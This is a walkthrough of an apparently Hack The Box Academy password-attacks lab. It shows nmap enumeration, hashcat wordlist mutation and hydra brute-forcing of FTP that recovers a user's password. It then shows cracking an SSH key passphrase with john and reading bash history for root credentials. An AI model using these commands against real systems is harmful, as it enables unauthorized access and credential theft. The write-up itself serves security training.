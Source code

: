 # Password Attacks Lab - Easy  

[Password Attacks Lab - Easy](https://academy.hackthebox.com/module/147/section/1334)  

## Enumeration  

>Nmap Scans and the results:  

```
sudo nmap -p- 10.129.218.52

PORT   STATE SERVICE
21/tcp open  ftp
22/tcp open  ssh
```  

>NMAP version and service scan:  

```
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 3f:4c:8f:10:f1:ae:be:cd:31:24:7c:a1:4e:ab:84:6d (RSA)
|   256 7b:30:37:67:50:b9:ad:91:c0:8f:f7:02:78:3b:7c:02 (ECDSA)
|_  256 88:9e:0e:07:fe:ca:d0:5c:60:ab:cf:10:99:cd:6c:a7 (ED25519)
```  

### FTP  

>FTP anonymous login fails.  


## Password Wordlists   

>[Password Mutations](https://academy.hackthebox.com/module/147/section/1391)  

>Using the wordlist resources supplied, and the `custom.rule` to create mutation list of the provide password wordlist.  

>Hashcat will apply the rules of custom.rule for each word in password.list and store the mutated version in our mut_password.list  

```
hashcat --force password.list -r custom.rule --stdout | sort -u > mut_password.list
```  

## Password Attacks  

>Targeting FTP service with `hydra` and the list of usernames and the list of passwords.  

```
hydra -L resources/demo-users.lst -P resources/demo-pass.lst ftp://10.129.218.52
```  

![Password Attacks Lab-Easy.png](/images/Password Attacks Lab-Easy.png)  

>Password brute force Results:  

```
[21][ftp] host: 10.129.218.52   login: mike   password: 7777777
```  

## Foothold  

>With the obtained username `mike` and his password of `7777777`, we target FTP.  

```
ftp 10.129.218.52
ls -al
get id_rsa
```  

>Crack the `id_rsa` password with `ssh2john id_rsa >ssh.hash`.

>Using John to rip the password from `ssh.hash`:  

```
john --wordlist=../resources/demo-pass.lst ssh.hash
```  

### SSH  

>Combine the `id_rsa` key with the password, gain access as user `mike`.

```
ssh mike@10.129.218.52 -i id_rsa
```  

## Lateral Movement

>Hunting for passwords, by checking bash history for root credentials.  

```
cat .bash_history
```  

![Password Attacks Lab-Easy2](/images/Password Attacks Lab-Easy2.png)  

